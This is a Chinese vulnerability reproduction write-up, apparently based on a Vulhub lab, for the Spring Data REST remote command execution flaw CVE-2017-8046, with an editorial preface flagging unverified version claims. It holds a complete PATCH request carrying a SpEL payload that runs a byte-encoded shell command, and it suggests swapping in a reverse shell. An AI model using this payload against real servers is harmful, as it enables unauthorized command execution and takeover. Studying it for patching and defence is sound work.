


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列 REST &lt;2.5.12、&lt;2.6.7、&lt;3.0 RC3 及 Boot/Data 发布列车版本，需按分支和实际依赖解释

代码与实验材料：完整 PATCH 请求和落地文件示例，回连依外部编码工具；未运行

来源证据范围：明确 Vulhub 来源

- **事实待核（1）**：版本上限缺分支下限，Boot 映射过宽；依据：多个 &lt; 范围并列，另写 Spring Boot &lt;2.0.0 M4，不足以判定实际 REST 依赖。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：图片引用串入其他漏洞目录；依据：第一张图片引用 CVE-2018-1273/resource/rId24，而本文为 CVE-2017-8046；目标存在但像素未核验。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-8046）Spring Data Rest 远程命令执行漏洞
==================================================

一、漏洞简介
------------

Spring Data REST是一个构建在Spring
Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST
API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

二、漏洞影响
------------

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

三、复现过程
------------

访问`http://www.0-sec.org:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

    PATCH /customers/1 HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json-patch+json
    Content-Length: 202

    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

SpringDataRest远程命令执行漏洞/media/rId24.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

SpringDataRest远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
